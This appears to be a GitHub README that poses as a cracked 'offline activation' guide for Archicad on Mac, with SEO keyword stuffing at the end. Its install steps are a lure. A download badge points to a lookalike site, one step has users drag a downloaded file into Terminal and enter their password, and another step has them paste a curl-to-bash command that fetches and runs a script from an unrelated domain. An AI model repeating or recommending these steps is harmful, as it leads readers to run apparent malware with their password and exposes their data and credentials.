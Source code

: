 # Archicad — Offline Activation Guide

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](archicad-download-mac.github.io)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Unlock

🔓 Full access to BIM tools and templates  
🏗 Construction modeling features enabled  
📐 Architectural rendering and visualization unlocked  
🔌 Add-on and extension support activated  
🛠 No login or online validation required

## 🖼 Preview

![Archicad Startup Interface](https://www.aecbytes.com/illustrations/sponsored/2024/Mac-Archicad-images/cover.png)  
*Official Archicad launch and workspace environment*

![3D Modeling View](https://www.aecbytes.com/illustrations/sponsored/2024/Mac-Archicad-images/fig2b.png)  
*Real-time architectural modeling in progress*

![Team Collaboration Enabled](https://alizvfdwaq.cloudimg.io/https://blog.enscape3d.com/hubfs/2023/Blog/Getting%20started%20in%20Enscape%20for%20Mac%20on%20Archicad.jpg?w=1500&h=936&optipress=2)  
*Offline team project environment with full BIM access*

### 🔎 SEO Keywords

`archicad mac`, `archicad macbook`, `archicad mac download`, `my graphisoft`, `archicad mac os`,  
`archicad osx`, `live sync archicad lumion`, `archicad for mac`, `graphisoft archicad mac`, `download archicad mac`,  
`archicad for macbook pro`, `archicad student mac`, `archicad trial mac`, `archicad full version mac`, `archicad offline mac`,  
`bim software mac`, `macbook architecture software`, `archicad install mac`, `archicad m1 mac`, `archicad m2 mac`,  
`graphisoft macos`, `archicad osx installer`, `3d architecture software mac`, `macos bim modeling`, `graphisoft download center`

